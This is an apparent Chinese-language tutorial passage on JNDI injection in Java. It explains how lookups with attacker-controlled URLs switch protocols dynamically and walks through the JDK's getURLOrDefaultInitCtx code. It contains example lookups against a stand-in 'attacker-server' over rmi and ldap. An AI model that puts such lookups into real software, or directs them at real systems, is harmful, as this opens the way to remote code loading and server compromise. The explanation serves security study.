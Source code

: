 - JNDI与LDAP配合使用

```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,
 "com.sun.jndi.ldap.LdapCtxFactory");
env.put(Context.PROVIDER_URL, "ldap://localhost:1389");

DirContext ctx = new InitialDirContext(env);

//通过名称查找远程对象，假设远程服务器已经将一个远程对象与名称cn=foo,dc=test,dc=org绑定了
Object local_obj = ctx.lookup("cn=foo,dc=test,dc=org");
```

### 动态协议转换

```java
Context ctx = new InitialContext();
ctx.lookup("rmi://attacker-server/refObj");
//ctx.lookup("ldap://attacker-server/cn=bar,dc=test,dc=org");
//ctx.lookup("iiop://attacker-server/bar");
```

上面没有设置对应服务的工厂以及PROVIDER_URL，JNDI根据传递的URL协议自动转换与设置了对应的工厂与PROVIDER_URL

```java
Hashtable env = new Hashtable();
env.put(Context.INITIAL_CONTEXT_FACTORY,"com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,"rmi://localhost:9999");
Context ctx = new InitialContext(env);

String name = "ldap://attacker-server/cn=bar,dc=test,dc=org";
//通过名称查找对象
ctx.lookup(name);
```

即使服务端提前设置了工厂与PROVIDER_URL也不要紧，如果在lookup时参数能够被攻击者控制，同样会根据攻击者提供的URL进行动态转换

在使用lookup方法时，会进入getURLOrDefaultInitCtx这个方法，转换就在这里面：

```java
public Object lookup(String name) throws NamingException {
    return getURLOrDefaultInitCtx(name).lookup(name);
}

protected Context getURLOrDefaultInitCtx(String name)
throws NamingException {
if (NamingManager.hasInitialContextFactoryBuilder()) {//这里不是说我们设置了上下文环境变量就会进入，因为我们没有执行初始化上下文工厂的构建，所以上面那两种情况在这里都不会进入
    return getDefaultInitCtx();
}
String scheme = getURLScheme(name);//尝试从名称解析URL中的协议
if (scheme != null) {
    Context ctx = NamingManager.getURLContext(scheme, myProps);//如果解析出了Schema协议，则尝试获取其对应的上下文环境
    if (ctx != null) {
   return ctx;
    }
}
return getDefaultInitCtx();
   }
```
